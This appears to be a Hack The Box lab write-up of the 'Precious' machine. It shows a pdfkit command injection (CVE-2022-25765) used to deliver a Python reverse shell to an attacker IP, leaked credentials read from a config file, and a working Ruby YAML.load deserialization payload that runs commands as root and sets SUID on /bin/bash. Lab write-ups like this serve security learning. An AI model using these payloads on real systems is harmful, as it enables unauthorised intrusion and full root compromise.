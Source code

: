```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Precious HTB Writeup
header:
  image: /assets/images/precious/precious_header1.png
  teaser: /assets/images/precious/precious_header.png
  
---
```

**Description**

The machine we’ll talk about today is a machine vulnerable to RCE and also to YAML Deserialization attack, I’ll explain my best to do through these 2 vulnerabilities.

# **PORT SCANNING**

```
nmap -sC -sV -oA nmap/result 10.10.11.189
Starting Nmap 7.93 ( <https://nmap.org> ) at 2022-11-27 00:13 CST
Nmap scan report for 10.10.11.189
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to <http://precious.htb/|_http-server-header:> nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 10.39 seconds
```

We have 2 ports open ⇒ 80 and 22

http-title revealse we are redirected to [](http://precious.htb)[http://precious.htb](http://precious.htb) ⇒ Don’t forget to add it to **/etc/hosts** file.

# HTTP Navigation

Navigating to [](http://precious.htb)[http://precious.htb](http://precious.htb) we can see a website where we can convert a web page to PDF file.

![precious-web-converter.png](/assets/images/precious/precious-web-converter.png)

I then tried to see how works the website.

Starting my webserver with python module :

```jsx
# python3 -m http.server 80
```

Now I can enter my “webpage” address and download the PDF generated.

Analyzing the PDF file with **EXIFTOOL** :

![precious-pdf-generated.png](/assets/images/precious/precious-pdf-generated.png)

The PDF is generated by **pdfkit v0.8.6** ⇒ search on Google :

we directly find that there is a vuln linked to **CVE-2022-25765**

After reading and understand some **PoC**. We understand here that we can add a random **GET** parameter after the link entered in the converter and inject a command between `backticks`

```
http://10.10.XX.XX/?name=%20`id`
```

Let's try that and see what's happening : 


![id-command-injected.png](/assets/images/precious/id-command-injected.png)

Here's we can see that we have the command executed and reflected in the PDF Title ! 

We can use a Python3 reverse shell payload found on : 
https://gtfobins.github.io/

```python
http://10.10.XX.XX/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.XX.XX",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```


```js
nc -nvlp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:42830.
$ ls
ls
app  config  config.ru  Gemfile  Gemfile.lock  pdf  public
$ cd /home/ruby
cd /home/ruby
$ ls -al
ls -al
total 28
drwxr-xr-x 4 ruby ruby 4096 Nov 26 14:36 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 4 ruby ruby 4096 Nov 26 19:56 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```

I found a directory called `.bundle` and found a file named `config`

```js
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Let's try these new credentials ! 


# Privilege Escalation

```js
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```


Analyzing the file Ruby file there is `YAML.load` function is vulnerable to `YAML Deserialization Attack`.

PoC available here : 

https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml


Now we'll download the file in `/home/henry` directory and try to execute it : 

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
```

now let's change the id command to something more interesting : 

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```

```bash
henry@precious:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

And we got the `root.txt` and `user.txt` files.

```bash
henry@precious:~$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# cat root.txt; cat /home/henry/user.txt
3e65f5f15a60993e469cec52af3141c7
56c36a10c17db0478af95c8e10f8f733
```

